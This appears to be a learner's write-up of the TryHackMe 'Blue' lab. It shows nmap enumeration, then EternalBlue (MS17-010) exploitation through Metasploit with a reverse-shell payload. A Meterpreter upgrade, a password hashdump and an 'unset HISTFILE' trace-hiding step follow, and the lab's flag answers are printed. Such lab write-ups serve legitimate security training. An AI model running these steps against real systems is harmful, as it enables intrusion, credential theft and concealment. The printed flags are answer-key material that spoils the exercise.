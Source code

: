 # [Blue]

## Basic Info
- **Platform**: TryHackMe
- **IP Address**: 10.10.5.87
- **Date**: 05/03/2025
- **Difficulty**: Easy
- **Tags**: Enumeration, Exploitation, Privilege Escalation

---

## Scanning & Enumeration

### Nmap
**Command:**
```bash
nmap -sVC -T4 -p- --open <ip> -oN blue.nmap
```

**Result Summary:**

```
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-05-02T14:26:05
|_Not valid after:  2025-11-01T14:26:05
|_ssl-date: 2025-05-03T15:50:43+00:00; -1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:50:17:50:99:b1 (unknown)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h14m59s, deviation: 2h30m00s, median: -1s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-03T10:50:37-05:00
| smb2-time: 
|   date: 2025-05-03T15:50:37
|_  start_date: 2025-05-03T14:26:04
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


```

---

## Service Analysis

### Port 445 - SMB
- **What’s running:** Microsoft SMB (Server Message Block)
- **Interesting files/directories:** 
- **Vulnerabilities identified:** ms17-010

---

## Exploitation

### Method Used:
- Vulnerability: ms17-010
- Exploit Used: exploit/windows/smb/ms17_010_eternalblue AKA eternalblue
- Shell Access Gained: Yes, reverse shell via Metasploit

**Commands:**
```bash
msfconsole - to start MetaSploit
	set the RHOST to <target_ip>
	set the LHOST to <your_ip>
	set payload windows/x64/shell/reverse_tcp #set the payload to get a reverse shell. 
	show targets  #to show potentional targets you can set which varies of the OS that the target has
	set target 1  #to select target os
	run #then run the exploit

```
---

```bash
CTRL+Z to background the shell
Then ran "search shell_to_meterpreter" #to have a stable meterpreter session
use 0 - to choose the exploit
sessions -l #to list the shells that we have.
set session 1
run #This upgrades the session
```
The session will look like it dropped, if you see 'stopping exploit/multi/handlder' it did not crash, instead run the following.

```bash

session 2 #this selects the upgraded session

```

We can see that our process ID belongs to powershell.exe and is running as NT AUTHORITY\SYSTEM.

then run:

```bash

hashdump

```

We can crack this hash using john with the following command after adding the hash (we just need the last part of the hash after the last “:”) to a file called “hash.txt” for the user Jon.

```bash

echo <hash> > hash.txt

```

Then now we have a password.

Now lets get the flags:

```bash
search -f *.txt - search for all the flags

```

```bash
cat "C:\\flag1.txt"
cat "c:\\Windows\\System32\\config\\flag2.txt"
cat "c:\\Users\\Jon\\Documents\\flag3.txt"
```

### User Enumeration
getuid <br>
ps

### File Discovery
Flag 1 location: C:\flag1.txt <br>
Flag 2 location: c:\Windows\System32\config\flag2.txt <br>
Flag 3 location: c:\Users\Jon\Documents\flag3.txt

---

## Privilege Escalation

### Method Used:
Not applicable — already NT AUTHORITY\SYSTEM from exploit

---

## Flags

- **Flag 1** flag{access_the_machine}
- **Flag 2** flag{sam_database_elevated_access}
- **Flag 3** flag{admin_documents_can_be_valuable}

---

## Lessons Learned
- I've learned sometimes if you have a firewall setup on your machine that you will need to allow list the ports that your room is using to connect back to your machine.
- Within the upgraded shell, you sometimes need to use a double "\\" for the absolute filepath to "cat" out the file contents of files.
- 

---

## Cleanup (If applicable)
```bash
rm /tmp/<filename>
unset HISTFILE
```


## Summary/Understanding of what I've learned in this room
- Learned how to exploit the EternalBlue vulnerability (MS17-010) on a vulnerable Windows 7 machine using Metasploit.
- Even though the exploit grants SYSTEM immediately, upgrading to Meterpreter makes post-exploitation easier.
- If the box you are attacking has issues with being exploited, restarting it fixes these issues.